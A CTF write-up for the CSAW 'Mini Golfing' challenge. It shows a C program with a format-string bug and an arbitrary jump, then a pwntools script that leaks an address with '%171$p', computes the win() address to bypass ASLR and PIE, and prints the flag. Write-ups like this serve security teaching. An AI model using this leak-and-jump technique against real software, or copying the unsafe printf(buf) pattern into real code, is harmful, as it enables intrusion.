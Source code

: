 ```yaml
---
title: CSAW CTF - Mini Golfing
description: A network forensics CTF chall. writeup.
date: "2024-09-20"
---
```


![first](/blog-post-1.jpg)

## Let's get cracking...

### Challenge Description:

`Let’s go mini golfing! To win, just aim correctly! Except the hole with the pin keeps moving…`

Following is the main challenge file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define MAX_STRINGS 32

void win() {
    system("cat /flag.txt");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
            
    fflush(stdout);
    fflush(stdin);

    uintptr_t address;
    char *all_strings[MAX_STRINGS] = {NULL};
 char buf[1024] = {'\0'};

    printf("Welcome to PWN GOLF.\n");
    printf("Would you like to enter your name? ");
   
    fgets(buf, 1024, stdin);
    printf("hello: ");
 printf(buf);
   
    printf("\nAlright! Tell me the address you want to aim at!: ");
    scanf("%lx", &address);
    void (*target)(void) = (void(*))address;
    printf("Ok jumping to that address...");
    target();

    return 0;
}
```

## Challenge Breakdown:

It was a classic PWN challenge where the goal was to exploit a vulnerable program that allowed you to jump to any address you provided. The twist, however, was that both Position Independent Executable (`PIE`) and Address Space Layout Randomization (`ASLR`) were enabled, making it impossible to use static addresses to hijack the control flow. This meant I had to come up with a creative way to bypass the randomized memory layout. Instead of relying on known addresses, I had to leak or brute force information about the memory space to find where the key functions or gadgets were located.

### Solution:

```python
from pwn import *
from pwn import p64

binary = ELF("./golf")
#conn = process(binary.path)
conn = remote("localhost", 9999)

exploit = "%171$p"
conn.sendline(exploit)
leaked_address = conn.recvuntil(b"\n\n").split()
leaked_address = leaked_address[-1].decode('UTF-8')

leaked_addr_int = int(leaked_address, 16)

win_addr = leaked_addr_int - 26
win_addr = hex(win_addr)

conn.sendline(win_addr)
conn.interactive()
```

This exploit script solves the challenge by leveraging a format string vulnerability to leak the memory address of the `main` function. Since both `PIE` and `ASLR` are enabled, the program's memory layout is randomized, so static addresses cannot be used. The format string payload `%171$p` retrieves the address of the `main` function from the program's stack. Once the address is leaked and parsed, the script calculates the address of the `win` function by subtracting 26 (determined through prior reverse engineering). This offset allows the script to adjust for the randomized memory layout, effectively bypassing `ASLR` and `PIE` protections. The calculated `win` address is then sent, causing the program to jump to and execute the `win` function, thereby achieving code execution and solving the challenge.

**Flag:** `csawctf{I_doNT_want_t0_g0_901FING_AnymOrE_pl34S3_Thank_you_!!!}`

Thanks for reading — I hope this blog has helped you learn something new and useful.

Stay in the loop with my latest content – follow me on [Medium](https://medium.com/@iabdullah_215) for more!

## MUHAMMAD ABDULLAH
## THANKS
